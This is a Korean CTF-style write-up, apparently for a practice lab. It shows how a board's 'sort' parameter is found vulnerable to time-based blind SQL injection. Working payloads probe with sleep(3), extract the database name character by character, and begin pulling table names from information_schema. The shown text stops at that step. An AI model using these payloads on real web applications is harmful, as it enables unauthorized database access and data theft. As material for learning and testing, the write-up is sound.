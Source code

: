 - 게시판 요청에서는 `sort`라는 파라미터가 추가되어 있으며, 해당 값으로 `views`를 입력하자,
게시물들이 **조회수(Views) 기준으로 오름차순(ASC) 정렬**되는 현상을 확인할 수 있었다.

- 서버 내부에서 다음과 같은 쿼리가 실행되고 있을 가능성이 있다.

```sql
SELECT ? FROM ? WHERE username LIKE '%12%' ORDER BY views ASC;
```

이를 이용하여 `ORDER BY`에 숫자를 하나씩 증가시키며 삽입해봄으로써,
쿼리에 사용된 컬럼 개수를 확인해보겠다.

| 값  | 결과                   |
| -------------- | -------------------- |
| `10`           | 게시물 출력 됨        |
| `11`           | 게시물 출력 안 됨 |

> 정상 출력되는 최대 숫자가 10이므로, **컬럼 개수는 `10개`임을 확인**할 수 있다.

정렬 기준으로 사용되는 `sort` 파라미터에 SQL 구문을 삽입하여, **Time-Based Blind SQL Injection 가능성**을 테스트해보았다.

```html
views, (select sleep(3))
```

- 위와 같은 값을 삽입하자, 페이지 응답이 약 **3초 이상 지연되는 현상**이 발생하였다.
이를 통해 서버가 해당 `SLEEP(3)` 구문을 실제로 실행하고 있음을 확인하였다.


Time-Based Blind SQL Injection이 성공적으로 확인되었으므로,
이를 기반으로 Python 스크립트를 작성하여 다음과 같은 순서로 자동화 공격을 수행하겠다.
1. 데이터베이스 이름 추출
2. 테이블 목록 추출 (`information_schema.tables`)
3. 특정 테이블의 컬럼 목록 추출 (`information_schema.columns`)
4. 플래그 값 추출

```html
views, (select if(ascii(substring((select database()), ?, 1))=?, SLEEP(3), 0))
```

> **데이터베이스 결과:**
```csharp
[1] = 115 → s
[2] = 113 → sq
[3] = 108 → sql
[4] = 105 → sqli
[5] = 95 → sqli_
[6] = 56 → sqli_8
End
result: sqli_8
```

- 테이블 추출:

```html
views, (select if(ascii(substring((select table_name from information_schema.tables where table_schema='sqli_8' limit ?,1), ?,1))=?, SLEEP(3), 0))
```
